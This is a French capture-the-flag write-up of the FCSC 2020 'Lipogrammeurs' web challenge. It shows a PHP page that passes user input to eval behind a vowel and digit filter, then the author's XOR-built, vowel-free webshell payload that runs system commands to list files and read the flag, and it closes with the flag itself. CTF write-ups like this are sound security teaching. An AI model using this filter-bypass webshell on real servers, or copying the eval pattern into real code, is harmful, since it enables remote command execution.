

# Lipogrammeurs

Auteur: Ewaël

**Lipogrammeurs** est un des challenges web à 100 points du FCSC 2020 et dont voici l'énoncé:



Le lien menant à une page avec le code suivant:

```php
<?php
    if (isset($_GET['code'])) {
        $code = substr($_GET['code'], 0, 250);
        if (preg_match('/a|e|i|o|u|y|[0-9]/i', $code)) {
            die('No way! Go away!');
        } else {
            try {
                eval($code);
            } catch (ParseError $e) {
                die('No way! Go away!');
            }
        }
    } else {
        show_source(__FILE__);
    }
```

Avec les voyelles et les chiffres filtrés, mais avec la contrainte de devoir envoyer une instruction pour exploiter `eval`, ma première idée de bypass le regex avec `?code[]=` n'était pas possible. Après quelques recherches je suis tombé sur un moyen d'obtenir un mini-webshell sans caractère alphanumérique grâce à un XOR entre deux symboles avec le modèle trouvé ici:

[https://gist.github.com/bilabar/aa25879110d29fce9b153d283b2642ed](https://gist.github.com/bilabar/aa25879110d29fce9b153d283b2642ed)

J'ai ainsi envoyé ```index.php?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=system&__=ls -all``` pour découvrir le fichier qui m'intéresse.


Puis j'ai affiché ce fichier avec ```index.php?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=system&__=cat .flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php``` pour récupérer le flag:

`FCSC{53d195522a15aa0ce67954dc1de7c5063174a721ee5aa924a4b9b15ba1ab6948}`
